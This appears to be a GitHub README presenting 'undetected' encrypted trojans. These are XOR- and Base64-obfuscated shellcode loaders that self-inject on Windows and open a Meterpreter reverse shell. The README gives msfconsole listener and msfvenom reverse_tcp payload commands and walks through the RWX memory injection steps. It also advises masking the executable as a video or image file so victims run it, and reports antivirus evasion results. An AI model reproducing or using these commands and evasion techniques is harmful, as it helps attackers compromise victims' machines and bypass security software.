 # Encrypted Trojans (Undetected)
Encrypted self-injection malware that creates a shell on a victim's pc, using Xor and Base64 encryption, UNDETECTED by Windows defender.

# 💻 Code (Encryption)

The first code is a very basic xor encryption using python, the second one is c++ based, the third one a base64 encoding based encryption, and the last one is a combination of the previous ones. The shellcodes are released with a very simple self injection process i showed in a previous repo, [Self-Injection-Reverse-Shell-Undetected](https://github.com/Hue-Jhan/Self-Injection-Reverse-Shell-Undetected), therefore i will not explain everything in details.

### 1) Python simple xor encryption

In this code the encryption function takes two inputs: a byte sequence (the shellcode), and a key (single-byte key to XOR against the data). It returns a new byte sequence where each byte from the data is XOR'd with the key. 

### 2) Xor encryption

Does the same thing but in c++, unlike the python code, it modifies the shellcode in place. The shellcode array passed to the function is directly changed through the XOR operation, so there is no return value, as the changes are applied directly to the memory location of the shellcode.

### 3) Base64 simple encryption

In this case i used a simple base64 encryption, it works by grouping the binary data into 24-bit blocks (3 bytes), then dividing them into four 6-bit chunks. Each 6-bit chunk is mapped to one of 64 possible characters (A-Z, a-z, 0-9, +, /).

### 4) Xor and Base64 encryption

Here the shellcode is encrypted using a simple XOR operation, and then it's encoded in Base64.

### 5) Multiple Xor and Base64 encryptions

The final encryption consists in multiple rounds of the Xor/B64 encryption, its the most complex i made so far. The only problem is decoding and injecting it, i've been having some issues decoding it as the cmd crashes : (
It's probably related to a buffer overflow due to the size of the encrypted shellcode.

---

# 💻 Code (Self Injection)

**Code explained**:
- First we define the base64 shellcode (make sure architecture is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

**Listener**:

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```


**Payload**:

The payload is, as i said before, a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

**Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with:

``` sessions ``` or ``` shell ```

---

# 🛡 AV Detection

<img align="right" src="media/trojan-shigata.png" width="230" />

Currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

- Simple python xor: 23 av detections
- Xor: 19 av detections
- Base64: idk
- Xor base 64: 11 av detections
- Multiple round encryptions: idk but definitely less than 10

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, cuz i had some issues trying to establish the session.

<img align="left" src="media/trojan-shigata-simple-xor.png" width="310" />

<img align="left" src="media/trojan-shigata-xor-base64.png" width="380" />
